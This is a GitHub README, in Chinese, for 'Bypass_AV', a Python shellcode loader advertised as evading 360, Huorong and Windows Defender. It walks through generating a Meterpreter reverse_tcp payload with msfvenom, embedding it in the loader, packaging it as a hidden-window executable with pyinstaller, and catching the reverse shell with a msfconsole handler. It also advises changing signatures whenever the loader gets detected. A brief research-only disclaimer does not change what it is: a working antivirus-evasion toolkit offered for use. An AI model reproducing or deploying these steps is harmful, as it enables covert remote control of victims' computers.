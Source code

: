 # Bypass_AV
Bypass_AV msf免杀，ShellCode免杀加载器 ，免杀shellcode执行程序 ，360&amp;火绒&amp;Windows Defender

代码够简单，估计要不了多久就进特征库了，被杀了再去改几个特征码照样又可以免杀，保持更新。

## 声明

#### 该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！


代码未经过大量测试，如发现问题请提交 issue。

## 环境
2022年5月8日 测试可以免杀国内杀软 火绒&360及Windows Defender

Windows 10 64位   360&火绒&Windows Defender

Windows 7 64位  或以上操作系统应该都没问题（没有测试）


## 使用msfvenom

生成ShellCode


```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.100 lport=8080 --encrypt base64 -f c
```

注意：ShellCode 需要是64位的

![image-20220508135022087](https://user-images.githubusercontent.com/34683107/167286509-b134001a-e463-495c-ab6b-78933050b14f.png)
## 加载器

将生成的ShellCode 填至 Bypass_AV.py 里的 ShellCode = '''**ShellCode**''' 处

注意：保留原始ShellCode 里的双引号 "

示例：

![image-20220508134821387](https://user-images.githubusercontent.com/34683107/167286553-0367af02-f64d-4e28-8b01-3080ae98c13f.png)


最终格式：

![image-20220508135655093](https://user-images.githubusercontent.com/34683107/167286556-9b847ebb-0408-43f6-836c-3ac7fac46788.png)



## 打包成可执行程序
编译

Python  3.8.6

pyinstaller 4.7

```
pip install pyinstaller 
pyinstaller -F -w Bypss_AV.py
```

生成Bypass_AV.exe在dist目录中



## 运行监听

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```



### Bypass_360


https://user-images.githubusercontent.com/34683107/167286823-a93fdd69-547e-4adc-9ae5-171fb0e919ca.mov


### Bypass_火绒

https://user-images.githubusercontent.com/34683107/167286897-a482c486-c3e9-4f69-ae55-98afd2ff1ed7.mov


### Bypass_Windows Defender

https://user-images.githubusercontent.com/34683107/167286874-9413611e-c2be-4cfb-ba51-f95ebe5518af.mov


感谢阅读

![Axx8](https://user-images.githubusercontent.com/34683107/167286522-4a5fb52c-f975-4ca1-ba6d-6333fd9ff046.jpg)
